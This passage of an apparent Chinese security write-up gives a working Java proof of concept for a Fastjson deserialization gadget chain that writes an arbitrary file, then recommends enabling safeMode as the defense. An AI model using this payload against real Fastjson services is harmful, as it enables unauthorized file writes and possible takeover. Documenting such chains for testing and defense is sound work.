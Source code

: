 测试载荷：

```
package org.heptagram.fastjson;

import com.alibaba.fastjson.JSON;
import java.io.IOException;

public class FileWrite {
    public static void main(String[] args) throws IOException {
        String json = "{\n" +
                "  '@type': \"java.lang.AutoCloseable\",\n" +
                "  '@type': 'sun.rmi.server.MarshalOutputStream',\n" +
                "  'out': {\n" +
                "    '@type': 'java.util.zip.InflaterOutputStream',\n" +
                "    'out': {\n" +
                "      '@type': 'java.io.FileOutputStream',\n" +
                "      'file': 'e:/filewrite.txt',\n" +
                "      'append': false\n" +
                "    },\n" +
                "    'infl': {\n" +
                "      'input': {\n" +
                "        'array': 'eJwL8nUyNDJSyCxWyEgtSgUAHKUENw==',\n" +
                "        'limit': 22\n" +
                "      }\n" +
                "    },\n" +
                "    'bufLen': 1048576\n" +
                "  },\n" +
                "  'protocolVersion': 1\n" +
                "}";
        JSON.parse(json);
    }
}


```

执行结果：  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20210422113828-33e22702-a31c-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20210422113828-33e22702-a31c-1.jpg)

防御措施
----

开启 safeMode

```
ParserConfig.getGlobalInstance().setSafeMode(true);


```

参考链接
----
